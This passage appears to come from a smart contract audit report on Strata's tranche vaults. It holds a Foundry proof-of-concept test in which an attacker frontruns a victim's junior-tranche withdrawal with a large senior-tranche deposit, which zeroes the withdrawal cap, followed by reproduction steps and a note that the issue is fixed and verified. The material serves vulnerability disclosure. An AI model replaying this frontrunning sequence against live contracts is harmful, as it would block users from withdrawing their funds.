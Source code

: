 ```solidity
    vm.startPrank(victim);
    USDe.mint(victim, initialJRTDeposit);
    USDe.approve(address(jrtVault), initialJRTDeposit);
    jrtVault.deposit(initialJRTDeposit, victim);
    vm.stopPrank();

    // Initial depositor to SRT (could be anyone)
    vm.startPrank(initialDepositor);
    USDe.mint(initialDepositor, initialSRTDeposit);
    USDe.approve(address(srtVault), initialSRTDeposit);
    srtVault.deposit(initialSRTDeposit, initialDepositor);
    vm.stopPrank();

    // Verify initial state: JRT maxWithdraw should allow the withdrawal
    uint256 preMaxWithdraw = accounting.maxWithdraw(true); // isJrt=true
    assertGt(preMaxWithdraw, victimWithdrawalAmount, "Initial maxWithdraw too low");

    // Simulate attacker frontrunning with large SRT deposit
    vm.startPrank(attacker);
    USDe.mint(attacker, attackDepositAmount);
    USDe.approve(address(srtVault), attackDepositAmount);
    srtVault.deposit(attackDepositAmount, attacker);
    vm.stopPrank();

    // Now simulate victim's withdrawal attempt (should fail due to updated cap)
    vm.startPrank(victim);
    vm.expectRevert(
        abi.encodeWithSelector(
            ERC4626ExceededMaxWithdraw.selector,
            victim,
            victimWithdrawalAmount,
            0 // Post-attack maxWithdraw should be 0
        )
    );
    jrtVault.withdraw(victimWithdrawalAmount, victim, victim);
    vm.stopPrank();

    // Verify post-attack state
    uint256 postMaxWithdraw = accounting.maxWithdraw(true);
    assertEq(postMaxWithdraw, 0, "Post-attack maxWithdraw not zeroed");
}
```

**Steps to Reproduce**:
1. Run the test in Foundry: `forge test --match-test test_FrontrunJRTWithdrawal`.

**Strata:**
Fixed in commit [23777d](https://github.com/Strata-Money/contracts-tranches/commit/23777d58ff5aa3c2dcb640d21902aa53e5d29212) by implementing a soft limit for SRTranche deposits to prevent reaching `minimumJrtSrtRatio` by incrementing the SR deposits.

**Cyfrin:** Verified.

